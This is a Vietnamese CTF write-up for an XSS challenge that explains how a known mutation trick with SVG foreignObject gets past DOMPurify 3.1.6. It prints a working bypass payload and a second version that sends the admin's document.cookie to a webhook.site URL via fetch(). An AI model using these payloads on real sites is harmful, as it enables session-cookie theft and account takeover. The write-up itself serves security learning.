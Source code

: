 Ta cần khai thác XSS và lấy được cookie của admin.
Bài này dựa vào description,ta thấy input được filter bằng DOMPurify,việc đầu tiên nghĩ đến là sẽ tìm cách 
bypass DOMPurify,tuy nhiên DOMPurify sử dụng cơ chế không dễ ăn tí nào, bằng cách dựa vào chính DOM tree để 
loại bỏ các tag và attribute không mong muốn. <br>
Nhắc lại cách hoạt động của DOMPurify, dựa vào DOM tree để loại các node và attribute không mong muốn, đối với 
một cặp thẻ `<p></p>` thì có thể gọi là node p, với một dòng text đơn thuần thì sẽ được gọi là text node, 
khác biệt ở đâu? <br>
<br>
Ví dụ ta có data `<a><h1>aaaa</h1></a>`, nếu gọi đến innerHTML của thẻ a thì data thu được sẽ là `<h1>aaaa</h1>`, 
nếu gọi đến innerText thì kết quả thu được là aaaa.<br>
Dựa vào description,ta thấy version là 3.1.6,phiên bản mới nhất là 3.1.7.Check thử release của 3.1.7 ta thấy 
thẻ `<foreignObject>` đã bị xóa,nên ta sẽ tìm thử payload liên quan đến thẻ này. <br>
Check thử X của người report lỗi (@masatokinugawa),ta thấy có post cần tìm <br>
<a>https://x.com/kinugawamasato/status/1843687909431582830 </a> <br>
![alt](https://pbs.twimg.com/media/GZYWJw_asAMZLem?format=png&name=900x900)<br>
![alt](https://pbs.twimg.com/media/GZYWOW8asAIpvLV?format=png&name=900x900) <br>
Payload : <br>
``` <a>
        <svg>
            <a>
                <foreignobject>
                <a>
                    <table>
                        <a>
                    </table>
            <style>
                <!--
            </style>
        </svg><a id="->
        <img src onerror=alert(1)>">.
    </a> 
```

Khi đã chạy được JS thì lấy cookie của admin gửi qua webhook thôi. <br>
<a>
```
    <svg>
        <a>
        <foreignobject>
        <a>
            <table>
                <a>
            </table>
        <style>
            <!--
        </style>
    </svg><a id="->
    <img src onerror=fetch('https://webhook.site/3b18e668-3ecf-484c-983f-2c36e5e91c9d?cookie='+encodeURIComponent(document.cookie))
    );>">
```
</a>